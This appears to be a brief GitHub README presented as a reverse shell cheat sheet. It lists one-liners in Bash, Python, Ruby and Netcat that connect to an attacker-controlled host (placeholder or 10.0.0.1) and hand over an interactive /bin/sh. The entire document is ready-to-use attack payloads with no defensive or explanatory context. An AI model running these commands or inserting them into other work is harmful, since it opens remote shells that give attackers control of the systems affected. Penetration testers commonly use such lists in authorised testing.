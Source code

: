 # CheetSheet Reverse Shell
I'ts most useful Reverse Shell CheetSheet

<h2>Bash</h2>

`bash -i >& /dev/tcp/[LocalHost]/[LocalPort] 0>&1`

<h2>Python</h2>

<p>This was tested under Linux / Python 2.7.</p>

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

<h2>Ruby</h2>

`ruby -rsocket -e'f=TCPSocket.open("[LocalHost]",[LocalPort]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

<h2>Netcat</h2>

`nc -e /bin/sh [LocalHost] [LocalPort]`
